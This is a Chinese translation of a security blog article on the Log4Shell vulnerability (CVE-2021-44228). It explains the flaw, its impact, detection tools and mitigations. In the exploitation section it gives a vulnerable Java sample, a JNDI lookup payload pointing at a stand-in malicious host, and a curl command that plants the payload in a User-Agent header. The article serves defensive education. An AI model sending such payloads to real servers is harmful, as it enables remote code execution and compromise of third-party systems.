





# Log4j 零日漏洞:利用、检测和缓解

> 原文：<https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4?source=collection_archive---------1----------------------->

## CVE-2021-44228:log 4 shell/log 4 jam


克林特·帕特森在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

# 概观

您可能已经听说过在 Apache Log4j 2 Java 库中发现的零日漏洞，这个漏洞在互联网上引起了轩然大波。在这篇文章中，我打算深入讨论这个漏洞及其影响、检测和缓解。

## Log4j 是什么？

Log4j 是一个快速、可靠和灵活的日志框架，用 Java 编写，是 Apache 日志服务的一部分。它基本上是一个用于日志记录的开源 Java API，用于跟踪应用程序中的活动。

## Log4j 架构

按照 apache.org 的说法，“*使用 Log4j 2 API 的应用程序将向日志管理器请求一个带有特定名称的日志记录器。日志管理器将定位适当的 LoggerContext，然后从中获取日志程序。LoggerConfig 对象是从配置中的记录器声明创建的。LoggerConfig 与实际传递日志事件的 Appenders 相关联"*



Log4j 架构[来源:[https://logging.apache.org](https://logging.apache.org)

# 剥削

让我们来看看这个漏洞是如何被利用的。它很容易被利用，这使得它更加危险和严重。

该漏洞是由于不正确的输入处理导致的远程代码执行(RCE ),使得攻击者无需验证即可获得目标系统的完全访问权限。为了理解这个漏洞，让我们看一个利用 Log4j 的简单 Java 代码示例。

```
**import** java.util.*; **import** org.apache.logging.log4j.Logger;
**import** org.apache.logging.log4j.LogManager;
**public** **class** poc{
**static** Logger logger = LogManager.getLogger(poc.**class**);
 **public** **static** **void** main(String args[]) {
  System.out.println("Enter your name:");
  Scanner sc = new Scanner(System.in);
  String name = sc.nextLine();
  logger.error(name);
  System.out.println("Hi "+name);
 }
}
```

上面的代码片段只是从用户那里获取一个输入名称，使用 log4j 将该名称记录为一个错误并打印出来。

让我们来看看几个示例输出-



用户输入“Bob ”,它只是被记录下来并被回显出来

Log4j 有一个名为“lookups”的特性，可以根据${}中包含的 lookup 中指定的参数来获取和添加某些值到 log4j 配置中。
它们的形式为= ${java:os}这里，Java OS 版本将被获取并作为一个值添加。

这很容易被攻击者滥用，因为没有输入验证，用户完全控制 log4j 记录的字符串。攻击者可以简单地输入查找来从服务器端提取信息，甚至执行命令。让我们看看上面看到的示例代码的另一个用户输入-



输入查找，替换并记录相应的值

这里，字符串＄{ env:USER }用于提取服务器上的用户环境变量，当 Log4j 使用查找来解析和获取该值时，它会显示在我们的输出中。现在我们已经对漏洞利用的工作原理有了基本的了解，让我们放大影响，看看远程查找！

Log4j 还有另一个功能叫做 **Java 命名和目录接口(JNDI)** ，它主要为应用程序提供目录服务，可以用来从远程服务器获取数据，并支持 LDAP、RMI 等协议。例如，使用远程查找与 LDAP 服务器通信可以通过使用:**$ { JNDI:LDAP://<server-IP>/context-name }**实现

攻击者可以滥用此功能远程执行代码。例如，像这样添加一个远程查找将使 Log4j 到达攻击者选择的远程服务器来提取数据: **${jndi:ldap://www .恶意. com/payload}**

攻击者只需使用 Log4j 获取易受攻击的应用程序，记录作为用户输入输入的 jndi 查找，并托管恶意服务器来交付有效负载。这可以通过攻击 web 请求中常见的日志字段(如用户代理头)并在其中嵌入 jndi 有效负载来实现。在用户代理头中嵌入有效负载的示例 curl 请求如下所示:

```
curl -H "User-Agent: ${jndi:ldap://www.malicious.com/payload}" target.com
```

当带有嵌入式远程查找的用户代理登录到目标服务器上，并且 Log4j 解析有效负载时，将发送一个请求从通过 jndi 指定的 LDAP 服务器获取数据。这使得攻击者能够通过 LDAP referrer 托管一台服务器，该服务器将传入 LDAP 的请求转发到另一台处理该请求的 HTTP 服务器，并使用有效负载响应目标服务器，以获得目标应用程序后端服务器上的外壳。



利用工作流

下面的 [**repo**](https://github.com/mbechler/marshalsec) 由 *mbechler* 提供了一个 Java 实现来设置一个 LDAP referrer 来测试这个漏洞。

**该漏洞的概念验证可在此处找到**:[https://github.com/xiajun325/apache-log4j-rce-poc](https://github.com/xiajun325/apache-log4j-rce-poc)

# 影响

**受影响的 Log4j 版本**:版本 2.0 到版本 2.14.1。
有数以百万计的应用程序利用 Java，这构成了一个巨大的攻击面。许多大型软件公司和在线服务使用 Log4j 库进行日志记录，包括 Amazon、Apple、Cisco、Cloudflare、ElasticSearch、Red Hat、Steam、Tesla、Twitter 等等。也可以在 这里找到一个易受 Log4Shell 攻击的已验证攻击面列表 [***。之所以难以修补和检测，是因为这可能存在于应用程序中使用的多个依赖项和第三方服务中。不同的公司和组织将不得不共同努力来修补他们各自的应用程序，以确保所有涉及的依赖关系都被覆盖并被正确地修补以解决这一漏洞。***](https://github.com/YfryTchsGD/Log4jAttackSurface)

# 侦查

许多优秀的检测工具和规则已经由各种安全研究人员和组织建立并在线共享，它们可以帮助我们在应用程序中检测 Log4Shell。让我们来看看其中的一些

https://log4shell.huntress.com**女猎手实验室 log4shell 测试器**—
该测试器提供具有唯一标识符的有效负载，接受来自易受攻击应用的 LDAP 连接，并显示其接收连接的 IP 地址。我们上面讨论的示例代码也可以用来测试这一点。



**Florian Roth 的 Log4Shell 检测器**—[https://github.com/Neo23x0/log4shell-detector](https://github.com/Neo23x0/log4shell-detector)
这是一个由 Florian Roth 创建的自动化 python 脚本，通过匹配 jndi 有效负载来检测 Log4Shell。该脚本主要分析日志，如果以下字符串中的所有字符以任何顺序匹配，就会触发检测。该脚本还考虑了各种形式的基于 URL 的编码:`${jndi:ldap:`

**Florian Roth 的 Yara Rules—**[https://github . com/neo 23 x 0/signature-base/blob/master/Yara/expl _ log4j _ CVE _ 2021 _ 44228 . yar](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_log4j_cve_2021_44228.yar)
Yara Rules 匹配常见的有效载荷字符串和在野外发现的模式。

LunaSec 的 Log4Shell 命令行工具——【https://github.com/lunasec-io/lunasec/releases】T2/
LunaSec 还构建了一个命令行实用程序来检查**。震击器**和**。警告项目目录中的文件，并通过匹配已知易受攻击的 log4j 类的散列来检查它们是否易受攻击。哈希列表可以在 [***这里***](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes) 找到。**

**Log4Shell Scanner Burp Suite 插件—** Burp Suite 的 Pro 版也有一个插件可以扫描 Log4Shell。我没有亲自用过，但你可以试一试！

# 减轻

针对此漏洞的最佳和最有效的修复方法是将 log4j 依赖项升级到 Apache 发布的最新版本，即 **log4j 2.16.0** 。最新版本解决了漏洞，提高了 log4j 的整体安全性。确保正在运行的 Java 实例是最新的也是一个好主意。

如果不可能立即安装补丁，可以在安装补丁的同时，暂时采用以下任何一种解决方法—

*   通过将环境变量**LOG4J _ FORMAT _ MSG _ NO _ LOOKUPS**设置为 **true** ，可以全局禁用消息查找
*   运行易受攻击的 Java 应用程序时，还可以通过使用命令行标志**‐dlog 4j 2 . formatmsgnolookups = True**来禁用特定执行的查找:**Java‐dlog 4j 2 . formatmsgnolookups = True-jar app . jar**
*   另一种方法是从任何使用 log4j 的 Java 应用程序中找到并删除 **JndiLookup** 类，这样就不会触发 jndi 查找。

如果你想了解更多关于 Log4Shell 的信息，请查看约翰·哈蒙德的精彩视频演示 [***这里***](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1187s) 。TryHackMe 和 John Hammond 还联手创建了一个探索 Log4j 漏洞的房间 [***这里***](https://tryhackme.com/room/solar) 。

感谢您的阅读，祝您狩猎愉快！🐞